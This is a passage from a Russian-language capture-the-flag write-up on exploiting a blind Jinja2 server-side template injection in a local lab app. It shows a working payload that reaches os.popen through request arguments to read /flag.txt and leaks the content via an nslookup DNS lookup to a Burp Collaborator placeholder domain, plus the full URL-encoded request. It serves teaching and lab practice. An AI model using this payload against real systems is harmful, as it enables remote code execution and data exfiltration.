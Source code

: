 Так как нам необходимо получить содержимое файла `flag.txt`, а уязвимость типа Blind, то необходимо воспользоваться какой-нибудь утилитой. Так, например, можно использовать утилиту `nslookup`, потому что в большинстве случаев,  исходящие DNS запросы не блокируются, чтобы не нарушать работу системы.
В конечном итоге payload должен выглядеть следующим образом:
```python
{% if self[request.args.get("in")][request.args.get("gl")][request.args.get('buins')][request.args.get('im')]('os').popen("nslookup $(cat /flag.txt | grep -oP '(?<=\{).*(?=\})').<burp-collabarator-domain>").read() %} Hello {% endif %}
```
А url:
```http
http://127.0.0.1:9001/get_user_info?name=%7b%25%20if%20self%5brequest.args.get(%22in%22)%5d%5brequest.args.get(%22gl%22)%5d%5brequest.args.get('buins')%5d%5brequest.args.get('im')%5d('os').popen(%22nslookup%20%24(cat%20%2fflag.txt%20%7c%20grep%20-oP%20'(%3f%3c%3d%5c%7b).*(%3f%3d%5c%7d)').<burp-collabarator-domain>%22)%20%25%7d%20Hello%20%7b%25%20endif%20%25%7d&age=26&description=something&in=__init__&gl=__globals__&buins=__builtins__&im=__import__
```
![](./img/img_10.png)
Получили содержимое флага в качестве поддомена нашего collabarator.

